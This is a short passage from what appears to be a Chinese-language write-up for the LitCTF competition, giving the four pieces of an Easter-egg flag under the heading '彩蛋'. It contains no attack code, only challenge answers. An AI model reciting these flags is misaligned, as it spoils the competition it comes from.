

### 13. 彩蛋

```
LitCTF{First_t0_The_k3y! (1/?) 
_S0_ne3t? (2/?)
_R3ady_Pl4yer_000ne_ (3/?)
F1rst_to_Th3_eggggggggg!} (4/4)
```

详情见上👆